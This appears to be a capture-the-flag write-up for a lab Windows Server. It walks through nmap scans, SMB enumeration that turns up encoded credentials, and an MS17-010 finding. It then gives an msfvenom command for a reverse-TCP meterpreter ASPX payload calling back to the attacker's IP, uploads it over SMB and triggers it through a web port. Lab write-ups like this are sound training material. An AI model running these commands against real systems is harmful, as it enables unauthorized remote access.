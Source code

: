 # Enumeration 
## Starting with `nmap`
```python
nmap -T4 -sV -vv -O -A -Pn 10.10.156.23 -oN nmap.txt
```
I found these interesting information
```note
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  syn-ack ttl 127 Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
...
```
Nothing much so I tried to access the target website and it looked like this
![Image](https://github.com/user-attachments/assets/552a041d-659e-4f11-8a09-6ba308a64185)
![Image](https://github.com/user-attachments/assets/cc79aad6-1a22-4c2b-8b18-8974be3f515c)
## Moving on with `Gobuster` to discover hidden path
![Image](https://github.com/user-attachments/assets/afe7677f-45d4-4170-a24e-7d13ee8075e2)
Still, I hadn't found any thing interested
## Checking the `smbclient`
```python
smbclient -L  \\\10.10.156.23\\        
Password for [WORKGROUP\b0xb0x]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.156.23 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
I found the sharename `nt4wrksv`, so I attempted interacting with that sharename to dive deeper

```python
smbclient  \\\\10.10.156.23\\nt4wrksv
Password for [WORKGROUP\b0xb0x]:
Try "help" to get a list of possible commands.
smb: \> get password.txt
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \password.txt
smb: \> ls
  .                                   D        0  Sun Jul 26 07:46:04 2020
  ..                                  D        0  Sun Jul 26 07:46:04 2020
  passwords.txt                       A       98  Sun Jul 26 01:15:33 2020
get pass
                7735807 blocks of size 4096. 5136836 blocks available
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

Amazing, I got the `passwords.txt` file, check what are inside the file
```python
cat passwords.txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```
It contained encoded users and passwords? First, I had to decode these strings first, decode the first line first
![Image](https://github.com/user-attachments/assets/01642ed9-32f0-43e8-8976-74854344c8b0)
After that, the second line
![Image](https://github.com/user-attachments/assets/926570d5-e8e9-4e90-8e52-f7a08b95b9fa)
So I got two usernames and passwords.
Then run a Nmap vulnerability scan on port 139 and 445 to enumerate this service. Command use:
```python
nmap -T4 -sV --script vuln -p 139,445 10.10.83.126
```
The results
```note
...

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
...
```
Next step is searching for SMBv1 
However, I found nothing, I had to enumerate more
I reckoned that there were still many hidden ports beside those common ones 
So I checked all the hidden port via this command
```python
nmap -T4 -sV -vv -O -A -p- 10.10.225.34
```
Results:
```note

```
The port 49663 was running on http.
Accessing this port 49663
![Image](https://github.com/user-attachments/assets/383e06e9-1fd4-44f5-8feb-3ef8c783fbf7)
Nothing special for this one so I tried the directory of the smb group and found this
![Image](https://github.com/user-attachments/assets/0f841027-bb53-469d-bbe0-1fd13f8cf6d1)
Therefore, implementing a reverse meterpreter for this port is the best way via generating payload and upload that payload under the name Bill or Bob 
```note
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.23.99.113 LPORT=1234 -f aspx -o metx64.aspx
```
```note
smbclient   \\\\10.10.225.34\\nt4wrksv -U Bill
Password for [WORKGROUP\Bill]:
Try "help" to get a list of possible commands.
smb: \> put metx64.aspx
putting file metx64.aspx as \metx64.aspx (3.2 kb/s) (average 3.2 kb/s)
```
Setting up a multi/handler to recieve the connection
![Image](https://github.com/user-attachments/assets/697351cf-5ef0-4706-8635-ac820428f6a3)
First, trigger the payload by accessing to it via port 49663
![Image](https://github.com/user-attachments/assets/f7df8b06-9071-4bd9-9ef0-916673f5ad22)
Got the user flag
![Image](https://github.com/user-attachments/assets/6986c040-aeed-49fa-b23b-9215dc342966)


# Privilege Escalation
![Image](https://github.com/user-attachments/assets/17aa4f77-1067-4dc2-96e6-2cddeae78202)
![Image](https://github.com/user-attachments/assets/06ec56ba-9cf0-4720-bb3d-24676ae90ad8)
![Image](https://github.com/user-attachments/assets/9f2dd19c-c44d-44fd-8d67-b41d2d5343b4)
![Image](https://github.com/user-attachments/assets/26538962-efe9-47c6-aebf-b946de391a86)


# Reference
[PrintSpoofer](https://github.com/dievus/printspoofer)


